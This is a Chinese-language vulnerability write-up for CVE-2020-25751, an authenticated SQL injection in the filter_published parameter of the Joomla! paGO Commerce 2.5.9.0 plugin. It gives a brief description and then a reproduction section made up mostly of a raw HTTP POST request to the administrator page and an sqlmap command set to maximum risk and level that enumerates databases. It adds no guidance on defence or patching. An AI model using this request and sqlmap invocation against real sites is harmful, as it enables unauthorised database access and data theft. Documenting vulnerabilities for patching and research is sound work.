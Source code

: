 （CVE-2020-25751）Joomla! paGO Commerce 2.5.9.0 sql注入漏洞
===========================================================

一、漏洞简介
------------

Joomla!是美国Open Source
Matters团队的一套使用PHP和MySQL开发的开源、跨平台的内容管理系统(CMS)。

Joomla! paGO Commerce 插件
2.5.9.0版本存在sql注入漏洞。该漏洞源于`administrator/index.php?option=com_pago＆view=comments filter_published`
参数。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

Joomla! paGO Commerce 2.5.9.0

三、复现过程
------------

    POST /joomla/administrator/index.php HTTP/1.1
    Host: www.0-sec.org:8000
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 154
    Origin: http://localhost
    Connection: close
    Referer: http://www.0-sec.org/joomla/administrator/index.php?option=com_pago&view=comments
    Cookie: 4bde113dfc9bf88a13de3b5b9eabe495=sp6rp5mqnihh2i323r57cvesoe; crisp-client%2Fsession%2F0ac26dbb-4c2f-490e-88b2-7292834ac0e9=session_a9697dd7-152d-4b1f-a324-3add3619b1e1
    Upgrade-Insecure-Requests: 1

    filter_search=&limit=10&filter_published=1&task=&controller=comments&boxchecked=0&filter_order=id&filter_order_Dir=desc&5a672ab408523f68032b7bdcd7d4bb5c=1

**sqlmap poc**:

`sqlmap -r www.0-sec.org --dbs --risk=3 --level=5 --random-agent -p filter_published`

参考链接
--------

> https://www.nmmapper.com/st/exploitdetails/48811/43057/joomla-pago-commerce-2590-sql-injection-authenticated/
